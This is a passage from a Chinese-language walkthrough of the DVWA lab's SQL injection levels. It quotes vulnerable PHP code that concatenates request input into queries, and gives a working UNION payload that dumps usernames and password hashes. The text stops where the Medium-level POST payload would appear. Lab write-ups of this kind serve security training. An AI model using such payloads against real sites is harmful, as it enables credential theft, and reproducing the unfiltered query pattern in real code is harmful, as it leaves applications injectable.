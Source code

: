 ## Low





php

```php
$id = $_REQUEST[ 'id' ]
# 没有过滤就直接带入 SQL 语句中 使用单引号闭合
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
while( $row = mysqli_fetch_assoc( $result ) ) {
        // 回显信息
        $first = $row["first_name"];
        $last  = $row["last_name"];
        $html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
```

因为之前输完 SQLi-Labs 靶场了，从源码中来看这里使用最基本的 Union 联合查询注入效率最高，国光这里直接丢最终注入的 Payload 吧：





payload

```payload
/sqli/?id=-1' union select 1,(SELECT+GROUP_CONCAT(user,':',password+SEPARATOR+0x3c62723e)+FROM+users)--+&Submit=Submit#
```



![img](https://image.3001.net/images/20200527/15905836509224.png)



## Medium

和 Low 级别不一样的代码主要区别如下：





php

```php
$id = $_POST[ 'id' ];

$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

可以看到从 GET 型注入变成了 POST 型注入，而且闭合方式不一样，从单引号变成直接拼接到 SQL 语句了。

POST 的数据内容如下：





payload

